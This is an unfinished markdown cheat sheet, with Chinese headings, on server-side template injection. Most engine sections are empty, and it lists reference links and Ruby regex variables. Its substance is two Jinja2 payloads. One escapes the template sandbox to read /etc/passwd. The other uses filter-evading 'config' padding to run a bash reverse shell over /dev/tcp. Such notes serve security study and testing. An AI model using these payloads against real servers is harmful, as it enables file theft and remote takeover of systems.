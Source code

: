 # SSTI 模板注入漏洞（Todo）

## Python

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}{% endif %}{% endfor %}
```

```python
{% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclasconfigses__()[59].__init__.func_glconfigobals.linecconfigache.oconfigs.popconfigen('bash -i >& /dev/tcp/127.0.0.1/233 0>&1') %}1{% endiconfigf %}
```

### Flask/Jinja2

### Django

### Tornado

## Java

### JSP

### FreeMarker

### Velocity

## PHP

### Twig

### Smarty

参考资料:

https://www.jianshu.com/p/eb8d0137a7d3

### Blade

## Ruby

```
$~:is equivalent to ::last_match;

$&:contains the complete matched text;

$`:contains string before match;

$':contains string after match;

$1, $2 and so on contain text matching first, second, etc capture group;

$+:contains last capture group.
```

### ERB



## 参考资料

一篇文章带你理解漏洞之SSTI漏洞:

[https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E)